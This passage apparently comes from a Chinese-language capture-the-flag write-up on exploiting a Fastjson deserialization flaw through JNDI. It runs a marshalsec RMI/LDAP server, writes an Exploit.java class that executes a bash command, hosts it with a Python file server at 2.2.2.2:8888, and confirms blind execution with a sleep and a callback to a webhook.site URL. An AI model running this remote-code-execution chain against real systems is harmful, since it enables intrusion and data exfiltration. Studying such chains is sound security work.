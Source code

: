 像這個指令就是在 port 9999 跑一個 RMI server，對應到上面的 payload。

再來，你的 RMI server 必須要提供最後你想載入的 Java Class，所以你還要再提供一個地方讓它去下載檔案，也就是上面指令的：`http://2.2.2.2:8888/#Exploit`。

這時候我們可以寫一個 `Exploit.java`：

``` java
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;

public class Exploit{
    public Exploit() throws Exception {
        Process p = Runtime.getRuntime().exec(new String[]{"bash", "-c", "touch /zydx666"});
        InputStream is = p.getInputStream();
        BufferedReader reader = new BufferedReader(new InputStreamReader(is));

        String line;
        while((line = reader.readLine()) != null) {
            System.out.println(line);
        }

        p.waitFor();
        is.close();
        reader.close();
        p.destroy();
    }

    public static void main(String[] args) throws Exception {
    }
}
```

把它編譯一下：`javac Exploit.java`，就產生出了 `Exploit.class`，然後用 Python 簡單起個 server：

```
python3 -m http.server --bind 0.0.0.0 8888
```

你的 RMI server 跟 Python file server 可以在同一個機器比較方便，這時候就一切準備就緒了。（再次強調一下，上面的程式碼都來自 [红队武器库:fastjson小于1.2.68全漏洞RCE利用exp](https://zeo.cool/2020/07/04/%E7%BA%A2%E9%98%9F%E6%AD%A6%E5%99%A8%E5%BA%93!fastjson%E5%B0%8F%E4%BA%8E1.2.68%E5%85%A8%E6%BC%8F%E6%B4%9ERCE%E5%88%A9%E7%94%A8exp/)這篇好文）

但這題不太一樣，我用上面的方法嘗試了幾次，發現我的 RMI server 有反應，但是 file server 卻沒反應，也就是說有似乎某個環節出了錯，導致整個利用鍊沒有成功，所以當然也沒執行到最後的程式碼。

此時胡亂嘗試了一波，我看到 marshalsec 還有另一個選項是 `marshalsec.jndi.LDAPRefServer`，就改成這個，payload 也換成 ldap 的網址，然後就成功了，我的 file server 就有反應了。

不過可惜的是，看起來執行指令還是沒有成功，因為無論我跑 `nc` 還是 `curl`，我的 server 都沒收到 request。繼續嘗試一波之後，我突然有個想法，會不會其實只是執行指令被封住，但是 Java code 有成功執行？

於是我在 Exploit.java 中加上 `Thread.sleep(5000)`，發現 response 確實慢了五秒，接著我加上：

``` java
URL url = new URL("https://webhook.site/bad84752-95a1-45c4-8395-e5577ea1112b%22);
InputStream iss = url.openStream();
```

